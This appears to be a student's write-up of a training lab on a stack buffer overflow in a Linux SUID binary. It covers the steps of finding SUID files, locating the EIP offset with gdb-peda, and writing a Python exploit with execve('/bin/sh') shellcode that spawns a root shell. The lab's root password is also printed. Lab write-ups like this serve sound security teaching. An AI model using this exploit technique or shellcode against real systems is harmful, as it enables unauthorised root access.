







# Tasks

## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation. The _ltrace_ tool may help you perform an initial investigation of any interesting binaries.

## Task 2: Identify the buffer overflow vulnerability

Examine the identified SUID binary. Try to experiment with the data it processes. Can you overflow the buffer? Focus on the arguments...

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Complete the exploit with shellcode and spawn a root shell

Implement shellcode into your exploit and spawn a root shell. You can use the shellcode provided in the same directory as target binary.

**Notes**:

1.  The created exploit may not work outside the debugger. Leverage the created core file to debug and investigate the area around the ESP register. Maybe the location where you landed needs to be re-adjusted inside the exploit...
    
2.  The target binary should be fed with the payload as follows.
    

```
./target_binary `python exploit_name.py`
```

You will notice that no core file is being created. This can be fixed, as follows.

```bash
rm core #To remove any previous core file, created by another "feeding" method
su root #Password: XDEVS1111bnm
echo "core" > /proc/sys/kernel/core_pattern
exit
```

Now ``./target_binary `python exploit_name.py` `` will result in a core file being created.

-------------------------------------------

# Lab Part
Finding target: `find / -perm -u=s -type f 2>/dev/null`



We can see there is an interesting file `/home/xdev/Desktop/.lab/unknown`

Let's get into the file and explore what we can exploit



As we can see, `unknown` is a linux execution file. Note that in the task guide, we can run the file with this syntax:
- ```./target_binary $(python exploit_name.py)```

In `shellcode.py` we have a string contain hex value

```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

Now, let's debugging the `ELF` file.



When we run it, the program is immediately crashed.
- To get more function's information, use `info functions`



- In here, we found there are 4 functions called in the code and others are machine's library

Make a pattern create: 

- `pattern create 500 1.txt` 

Execute the pattern to get offset:

- `r $(cat 1.txt)`


Using `pattern offset` to get the position of **0x5a254177**, and we have 390.

Override the **EIP**: `python -c "print('A'*390+'B'*4)"`



Find the start of the buffer: `x/200wx $esp-0x200`



- Now we know the start of the buffer is `0xbffff2a6`

## Proof of Concept

```python
offset = 390  
buf = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68" \  
      "\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89" \  
      "\xc2\xb0\x0b\xcd\x80"  
  
payload = ''  
payload += '\x90'*90  
payload += buf  
payload += 'A'*(offset - 90 - len(buf))  
payload += '\xf0\xf2\xff\xbf'  
  
print(payload)
```



The lab is pwned!
